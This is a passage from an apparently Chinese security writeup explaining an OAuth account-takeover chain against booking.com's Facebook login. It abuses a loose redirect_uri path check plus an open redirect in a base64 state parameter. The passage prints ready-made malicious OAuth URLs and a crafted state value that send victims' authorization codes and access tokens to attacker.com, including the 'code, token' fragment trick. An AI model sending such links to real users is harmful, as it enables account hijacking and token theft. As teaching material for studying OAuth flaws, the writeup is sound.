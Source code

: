 其中`https://www.facebook.com/v3.0/dialog/oauth`是Facebook认证的界面，而redirect=参数则是认证后跳转回的url。

redirect=参数中，域名往往是被严格控制的，这很好理解，为了防止url跳转漏洞，Facebook可能会对请求`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/social/result/facebook&scope=email&client_id=210068525731476&state=[large_object]&response_type=code`时的referer进行校验，或者更为严格的是，redirect要跳转的域名与client_id做一个绑定，client_id都是在Facebook注册过的合法、安全的站点。

但是`redirect=https://domian.com/path/`的路径可能是不做严格限制的，所以我们可以将链接修改为`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/any/path/attacker/wants&scope=email&client_id=210068525731476&state=[large_object]&response_type=code`,这一修改会导致，我们在`www.facebook.com`允许登录后，跳转到`https://account.booking.com/any/path/attacker/wants?code=`下，**跳转的站点不可控，但是路径可控，而且携带着我们可能感兴趣的code参数**

#### 缺陷二——开放重定向漏洞（url跳转漏洞）

在Randomsite.com的站内，发现了一处url跳转漏洞，即`https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback?response_type=code&state=eyJteXNldHRpbmdzX3BhdGgiOiIvbXlzZXR0aW5ncy9wZXJzb25hbCIsImFpZCI6IjEyMyJ9`，该链接会将用户重定向到`https://account.booking.com/mysettings/personal`，这是因为参数state的缘故，state是base64编码的字符串，解码后为

```json
{"mysettings_path":"/mysettings/personal","aid":"123"}
```

所以，我们可以构造state参数`eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ`

```json
{"mysettings_path":"https://attacker.com/index.php","aid":"123"}
```

#### 结合缺陷一二获取code

我们构造如下链接发送给受害者`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&scope=email&response_type=code&client_id=210068525731476`

注意我们如何利用了缺陷一二，一我们更改了通过Facebook认证后的跳转路径，将安全路径`/social/result/facebook`替换为了存在url跳转漏洞的`/oauth2/authorize`，我们再利用url跳转漏洞，将参数state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMif指向攻击者所控制的恶意链接。

理想的攻击情景是，用户点击我们发送的恶意链接，进入Facebook的授权登录界面，用户授权后，url中携带攻击者感兴趣的code跳转到存在url跳转漏洞的`https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&code=666666`，紧接着又因为url跳转漏洞跳转到了state所指向的恶意站点。

这里有一个小trick，重定向一般不会携带查询参数（可以观察一下响应包中的location:，其不会携带?后的查询参数），所以我们链接中的&code=666666不会被携带向`https://attacker.com/index.php`发起请求，如何解决这个问题呢？关键在于facebook授权登录url中的参数`response_type=`，将其由`response_type=code`更改为`response_type=code, token`，这会使得Facebook不通过参数发送code，而是通过一个标识片段传递，即`https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ#code=[secret_code]&access_token=[token]`,url重定向时会携带这个片段标识符，

所以，我们更改最初的链接为`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code, token;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&scope=email&response_type=code&client_id=210068525731476`，用户点击后，最终跳转到如下请求`https://attacker.com/index.php`，攻击者可以通过JavaScript读取#code=[secret_code]&access_token=[token]（示例见portswigger靶场五），攻击者就拦截窃取了code
